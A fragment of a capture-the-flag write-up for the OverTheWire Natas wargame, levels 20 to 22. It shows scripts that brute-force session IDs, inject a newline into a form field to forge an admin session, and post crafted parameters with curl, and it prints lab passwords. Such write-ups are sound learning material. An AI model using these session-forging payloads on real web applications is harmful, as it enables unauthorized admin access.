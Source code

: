 ```
  

    if "You are an admin" in r.text:

        print(f"[+] Found admin session at ID = {i}")

        print(r.text)

        break
```
```
natas20
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
```
## Natas21
- wtf is this session handle ? 
- 2 line -> bypass
```python
import requests

  

url = 'http://natas20.natas.labs.overthewire.org/'

auth = ('natas20', 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw')

session = requests.Session()

session.auth = auth

payload = 'admin\nadmin 1'

session.post(url, data={'name': payload})

  

res = session.get(url)

print(res.text)
```

```
natas21
BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
```
## Natas22
- get PHPSESSION = hint 
- get flag
```shell 
#!/bin/bash

  

#get PHPSESSID

PHPSESSID=$(curl -s -i -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH \

  -X POST \

  -d "admin=1&submit=1" \

  http://natas21-experimenter.natas.labs.overthewire.org/index.php \

```